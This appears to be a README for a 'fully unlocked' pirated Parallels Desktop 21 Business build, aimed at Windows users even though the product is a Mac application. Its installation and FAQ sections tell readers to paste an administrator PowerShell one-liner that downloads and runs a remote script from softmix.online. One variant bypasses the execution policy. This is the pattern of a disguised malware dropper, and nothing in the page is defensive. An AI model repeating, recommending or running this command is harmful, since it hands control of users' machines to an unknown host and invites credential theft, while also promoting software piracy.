

<div align="center">


<br>


# Parallels Desktop 21 Business Edition
**Desktop 21 · Coherence · USB**
<br>
**Desktop 21 · Coherence · USB**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Parallels Desktop 21 Business — near-native VM performance, Coherence mode and full device passthrough enabled.**

</div>

---

> Business edition includes Pro tools, network profiles and USB passthrough — run Windows apps without Parallels subscription renewal.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 🖥️ **Dual OS** — Run Windows and Linux VMs with near-native performance.
- 🔄 **Coherence mode** — Windows apps appear alongside native desktop apps.
- 🔌 **USB & devices** — Full device passthrough and printer sharing enabled.
- 🌐 **Network profiles** — Custom networking and VPN integration active.
- 🔓 **Business tools** — Admin policies, deployment and volume licensing included.
- ⚙️ **Developer mode** — Docker, Visual Studio and Xcode workflows supported.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 12 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 12 GB free space.
</details>


TAGS
parallels-desktop, parallels-21, dual-os, coherence-mode, vm-parallels, windows-on-mac, usb-passthrough, virtualization, cross-platform, business-tools, desktop-integration, it-tools, parallels-desktop-21, parallels-desktop-21-pc, developer-tools
